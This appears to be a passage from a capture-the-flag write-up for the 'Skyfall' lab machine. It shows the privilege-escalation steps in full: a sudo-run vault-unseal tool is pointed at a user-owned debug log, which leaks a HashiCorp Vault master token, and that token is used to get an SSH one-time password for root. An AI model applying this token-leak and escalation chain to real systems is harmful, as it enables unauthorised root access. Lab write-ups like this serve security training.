 Now the debug.log can be written in **askyy’s** posession.

Now run the following command.

```
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d -v /home/askyy/debug.log
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
```

Here the Master Token has been written to **debug.log** file.

Read the **debug.log** file.

```
askyy@skyfall:~$ cat debug.log
2024/02/07 17:48:21 Initializing logger...
2024/02/07 17:48:21 Reading: /etc/vault-unseal.yaml
2024/02/07 17:48:21 Security Risk!
2024/02/07 17:48:21 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/02/07 17:48:21 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/02/07 17:48:21 Check interval: 5s
2024/02/07 17:48:21 Max checks: 5
2024/02/07 17:48:21 Establishing connection to Vault...
2024/02/07 17:48:21 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/02/07 17:48:21 Checking seal status
2024/02/07 17:48:21 Vault sealed: false
```

Now we can see we are now connected to **Vault.**

We can try the same way that we used to login user **askyy.**

```
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb/"
export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"
export VAULT_NAMESPACE="root"
```

To get root access, Run the following code, a **OTP** will be generated and use the **OTP** as the password of **SSH** connection.

```
┌──(Batman㉿GC)-[~/Downloads]
└─$ ./vault ssh -role admin_otp_key_role -mode otp root@10.10.11.254
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 2b26b6b2-bfc9-e6bb-21bc-9e3afecdc53a
(root@10.10.11.254) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

```